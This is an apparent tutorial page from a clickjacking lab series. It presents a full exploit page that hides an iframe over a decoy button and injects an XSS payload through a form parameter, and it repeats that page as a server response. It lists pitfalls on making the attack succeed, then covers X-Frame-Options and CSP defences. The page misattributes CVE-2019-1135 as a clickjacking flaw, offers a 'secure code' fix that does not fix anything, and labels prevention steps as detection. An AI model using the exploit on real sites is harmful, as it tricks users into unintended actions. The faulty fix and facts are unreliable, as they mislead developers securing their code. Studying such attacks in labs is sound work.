

## Introduction to Clickjacking

Clickjacking, also known as UI Redress Attack, is a malicious technique used by attackers to trick users into clicking on a button or link that is invisible or disguised as another element. This can lead to unauthorized actions being performed on behalf of the user, such as changing settings, making purchases, or executing other harmful operations. The primary goal of clickjacking is to exploit the trust users have in familiar websites and interfaces.

### What is Clickjacking?

Clickjacking occurs when an attacker embeds a hidden iframe containing a malicious website within a seemingly benign webpage. Users are then tricked into interacting with the hidden iframe, which can result in unintended actions. The attacker achieves this by overlaying transparent or opaque elements over the iframe, making it difficult for the user to realize they are interacting with the malicious site.

### Why Does Clickjacking Matter?

Clickjacking is significant because it exploits the trust users place in familiar websites and interfaces. By tricking users into performing actions they did not intend, attackers can gain unauthorized access to sensitive information or perform malicious activities. This can lead to financial losses, data breaches, and reputational damage for both individuals and organizations.

### How Does Clickjacking Work?

To understand how clickjacking works, let's break down the process:

1. **Embedding the Target Website**: The attacker creates a webpage that contains an iframe pointing to the target website.
2. **Overlaying Elements**: The attacker overlays transparent or opaque elements over the iframe, making it difficult for the user to realize they are interacting with the malicious site.
3. **Tricking the User**: The attacker tricks the user into clicking on the overlayed elements, which in turn triggers actions on the hidden iframe.

### Real-World Example: CVE-2019-1135

One notable example of a clickjacking vulnerability is CVE-2019-1135, which affected several popular web applications. In this case, attackers were able to trick users into granting permissions to malicious extensions or apps by overlaying elements over the iframe containing the permission dialog. This led to unauthorized access to sensitive data and functionalities.

### Background Theory

To fully grasp the mechanics of clickjacking, it's essential to understand the underlying concepts:

1. **iFrame**: An iframe is an HTML element that allows embedding another document within the current document. It is commonly used to display content from external sources.
2. **CSS Styling**: CSS (Cascading Style Sheets) is used to style and layout web pages. Attackers often use CSS to manipulate the appearance and positioning of elements.
3. **JavaScript**: JavaScript is used to interact with the DOM (Document Object Model) and perform various actions on the webpage. Attackers can use JavaScript to automate interactions with the hidden iframe.

### Step-by-Step Mechanics

Let's walk through the step-by-step mechanics of a clickjacking attack:

1. **Create the Exploit Server**: The attacker sets up an exploit server to host the malicious webpage.
2. **Embed the Target Website**: The attacker creates an iframe pointing to the target website.
3. **Prepopulate Fields**: The attacker prepopulates fields with a DOM-based XSS vulnerability to ensure the attack is effective.
4. **Style the iFrame**: The attacker uses CSS to style the iframe and overlay elements to make it appear legitimate.
5. **Trick the User**: The attacker tricks the user into clicking on the overlayed elements, which in turn triggers actions on the hidden iframe.

### Complete Code Example

Here is a complete example of a clickjacking exploit:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Clickjacking Exploit</title>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0;
        }
        .overlay {
            position: absolute;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            width: 200px;
            height: 100px;
            background-color: red;
            color: white;
            text-align: center;
            line-height: 100px;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <iframe src="https://target-website.com/form?feedback=<script>alert('XSS')</script>" style="opacity: 0;"></iframe>
    <div class="overlay">Click Here</div>
</body>
</html>
```

### Explanation of Each Component

1. **HTML Structure**:
    - The `iframe` element is used to embed the target website.
    - The `.overlay` div is used to overlay a transparent element over the iframe.

2. **CSS Styling**:
    - The `iframe` is styled to be absolutely positioned and made invisible using `opacity: 0`.
    - The `.overlay` div is styled to be centered and made visible to the user.

3. **JavaScript (Optional)**:
    - JavaScript can be used to automate interactions with the hidden iframe, but it is not necessary for this basic example.

### Mermaid Diagram

Here is a mermaid diagram illustrating the clickjacking attack flow:



### Pitfalls and Common Mistakes

1. **Inadequate Styling**: Failing to properly style the iframe and overlay elements can make the attack obvious to the user.
2. **Insufficient Prepopulation**: Not prepopulating fields with a DOM-based XSS vulnerability can render the attack ineffective.
3. **Lack of User Interaction**: Failing to trick the user into clicking on the overlayed elements can prevent the attack from succeeding.

### How to Prevent / Defend

#### Detection

1. **Content Security Policy (CSP)**: Implement a strict CSP to prevent the loading of untrusted content.
2. **X-Frame-Options Header**: Set the `X-Frame-Options` header to `SAMEORIGIN` or `DENY` to prevent the page from being framed.
3. **Frameguard**: Use the `frameguard` library to prevent framing attacks.

#### Prevention

1. **Implement X-Frame-Options**: Add the following header to your server configuration:

    ```http
    X-Frame-Options: SAMEORIGIN
    ```

2. **Use Content Security Policy**: Add the following directive to your CSP:

    ```http
    Content-Security-Policy: frame-ancestors 'self'
    ```

3. **Secure Coding Practices**: Ensure that user inputs are properly sanitized and validated to prevent DOM-based XSS vulnerabilities.

#### Secure-Coding Fixes

Here is an example of a vulnerable and secure version of the code:

**Vulnerable Code**:

```html
<form action="/submit-feedback">
    <input type="text" name="feedback" value="<script>alert('XSS')</script>">
    <button type="submit">Submit</button>
</form>
```

**Secure Code**:

```html
<form action="/submit-feedback">
    <input type="text" name="feedback" value="">
    <button type="submit">Submit</button>
</form>

<script>
    const feedbackInput = document.querySelector('input[name="feedback"]');
    feedbackInput.value = encodeURIComponent('<script>alert("XSS")</script>');
</script>
```

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response for the clickjacking exploit:

**HTTP Request**:

```http
GET /clickjacking-exploit.html HTTP/1.1
Host: malicious-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```

**HTTP Response**:

```http
HTTP/1.1 200 OK
Date: Mon, 12 Jul 2021 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 512
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Clickjacking Exploit</title>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0;
        }
        .overlay {
            position: absolute;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            width: 200px;
            height: 110px;
            background-color: red;
            color: white;
            text-align: center;
            line-height: 100px;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <iframe src="https://target-website.com/form?feedback=<script>alert('XSS')</script>" style="opacity: 0;"></iframe>
    <div class="overlay">Click Here</div>
</body>
</html>
```

### Expected Result

When the user clicks on the overlayed element, the hidden iframe will submit the form with the malicious feedback, triggering the DOM-based XSS vulnerability.

### Hands-On Labs

For hands-on practice with clickjacking, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive lab on clickjacking and related vulnerabilities.
- **OWASP Juice Shop**: Provides a real-world web application with various security vulnerabilities, including clickjacking.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing web hacking techniques.

By thoroughly understanding the mechanics of clickjacking and implementing robust defenses, you can protect against this sophisticated attack vector.

---
<!-- nav -->
[[01-Introduction to Clickjacking and DOM-Based XSS|Introduction to Clickjacking and DOM-Based XSS]] | [[Web Security (PortSwigger)/05-Clickjacking/05-Lab 4 Exploiting clickjacking vulnerability to trigger DOM based XSS/00-Overview|Overview]] | [[03-Understanding Clickjacking|Understanding Clickjacking]]
